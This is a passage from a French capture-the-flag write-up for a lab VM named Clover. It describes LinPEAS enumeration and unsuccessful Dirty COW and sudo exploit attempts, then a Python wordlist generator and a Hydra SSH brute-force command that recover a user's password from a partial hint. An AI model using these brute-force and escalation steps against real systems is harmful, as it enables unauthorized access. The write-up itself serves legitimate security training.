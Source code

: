 Une énumération locale via `LinPEAS` remonte quelques vulnérabilités *classiques* telles `Dirty COW` et `Sudo Baron Samedit`.

Toutefois les exploits `Dirty COW` ne semblent pas aboutir (sans doute le système est patché) et pour la faille `sudo` on est géné par le fait que le binaire `python` utile à l'exploit a été mis en accès pour root uniquement.

Heureusement je disposais d'une autre VM avec le même système (Debian 8, 64bits) et j'ai pu copier `python` mais finalement le système n'était pas non plus vulnérable.

A noter que `gcc` est aussi absent de la VM donc il faut compiler en static pour copier les binaires pour exploiter telle ou telle vulnérabilité (voir plus loin pour `PwnKit`)

## Harry Clover

Mais le CTF a en réalité un cheminement officiel sans exploits qui était un peu difficile à trouver.

Il y a un fichier de backup concernant l'utilisateur `sword` mais le propriétaire du fichier ne correspondait pas à cet utilisateur (donc un `find` spécifique ne le retournait pas) :

```bash
asta@Clover:/tmp$ ls /var/backups/reminder/ -al
total 12
drwxr-xr-x 2 root root 4096 Mar 27  2021 .
drwxr-xr-x 3 root root 4096 Feb 14 03:07 ..
-rw-r--r-- 1 root root  144 Mar 27  2021 passwd.sword
asta@Clover:/tmp$ cat /var/backups/reminder/passwd.sword
Oh well, this is a reminder for Sword's password. I just remember this:

passwd sword: P4SsW0rD**** 

I forgot the last four numerical digits!
```

On génère une wordlist correspondant à ces cas :

```python
with open("passwords.txt", "w") as fd:
    for i in range(0, 10000):
        password = f"P4SsW0rD{i:04}"
        print(password, file=fd)
```

Et on lance `Hydra` sur le service SSH :

```bash
hydra -l sword -P /tmp/passwords.txt ssh://192.168.56.99
```

Après 40 minutes on obtient le mot de passe :

```
[22][ssh] host: 192.168.56.99   login: sword   password: P4SsW0rD4286
```

L'utilisateur dispose d'un flag lui aussi :
